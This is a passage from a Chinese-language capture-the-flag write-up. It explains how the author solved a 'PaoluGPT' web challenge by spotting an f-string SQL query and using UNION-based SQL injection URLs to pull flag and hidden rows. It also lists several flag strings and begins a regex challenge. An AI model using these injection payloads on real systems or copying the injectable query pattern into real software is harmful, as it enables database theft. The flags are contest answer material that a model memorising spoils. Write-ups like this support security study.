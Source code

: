 **`flag{n0_pr0topOIl_50_U5E_new_Map_1n5teAD_Of_0bject2kv_2e6c80b0f0}`**


## PaoluGPT

> 不会把我问 GPT flag 的对话也公开了吧）

先看源码发现这里有明显的 SQL 注入：

```python
results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
```

### 千里挑一

这么多文章一篇一篇翻也太麻烦了，于是直接找 contents 里面含有 flag 的文章：

```
/view?conversation_id=1' UNION SELECT title, contents FROM messages WHERE contents LIKE '%flag%'--
```

打开一看，你给我干哪来了，这哪有 flag 啊？后来发现是要翻到最下面才能看到...

**`flag{enJ0y_y0uR_Sq1_&_1_would_xiaZHOU_hUI_guo_8ab76b390d}`**

### 窥视未知

#### 未知？

从 `/list` 的处理上我们能看到表里还有 `shown` 这个字段，那根据标题我们就要找 `shown = false` 的那篇隐藏文章：

```
/view?conversation_id=1' UNION SELECT title, contents FROM messages WHERE shown = false--
```

翻到最下面就能看到第二个 flag。

**`flag{zU1_xiA0_de_11m_Pa0lule!!!_6c5fd3cf85}`**

#### 已知！

因为隐藏的文章也肯定包括 flag 这个单词，所以用第一部分的思路也能搞到这篇文章。  
不过源码里只会显示返回的第一项，所以我们只要加一个 offset 就能看到第二篇文章了：

```
/view?conversation_id=1' UNION SELECT title, contents FROM messages WHERE contents LIKE '%flag%' LIMIT 1 OFFSET 1--
```


## 强大的正则表达式

> 強靭 ★ 無敵 ★ 最強

### Easy

小学一年级的同学们都知道要判断一个数是不是 4 的倍数只要看后两位就行了，因为 $4 \times 25 = 100$ 导致高位都是 4 的倍数。那么对于 16 的倍数，我们只需要看后四位就行了。  
但这里还有一个小小的问题，如果一个数不到四位长，那么给我们的字符串不会包括前缀的 0，所以我们要把这些小的数单独考虑，或在最后就可以了。
